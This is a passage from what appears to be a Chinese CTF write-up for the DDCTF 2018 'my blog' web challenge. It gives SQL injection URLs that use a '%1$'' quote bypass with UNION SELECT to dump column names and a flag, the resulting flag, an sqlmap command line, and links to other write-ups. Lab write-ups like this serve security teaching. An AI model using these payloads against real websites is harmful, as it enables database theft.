 article,key,users


http://116.85.39.110:5032/a8e794800ac5c088a73b6b9b38b38c8d/index.php?id=1&title=%1$%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x6B6579%20%23

f14g

http://116.85.39.110:5032/a8e794800ac5c088a73b6b9b38b38c8d/index.php?id=1&title=%1$%27%20union%20select%201,2,group_concat(f14g)%20from%20a8e79480.key%20where%201=1%20%23

DDCTF{39a3b3cf60a4bee19bf510c5be361f3d}
```


另外sqlmap也可以直接跑出结果：

```
sqlmap.py -u "http://116.85.39.110:5032/a8e794800ac5c088a73b6b9b38b38c8d/index.php?id=1&title=" -p "title" --cookie "PHPSESSID=a0da651ea36361e90685492346965c44"  --prefix "%1$'"  --suffix "%23" --level 5
```

## 参考wp

[DDCTF2018 WEB5 我的博客 WRITEUP【lz1y】](http://www.lz1y.cn/archives/1394.html)

[DDCTF 2018 Web Writeup【Wfox】](http://sec2hack.com/ctf/ddctf-2018-web-writeup.html)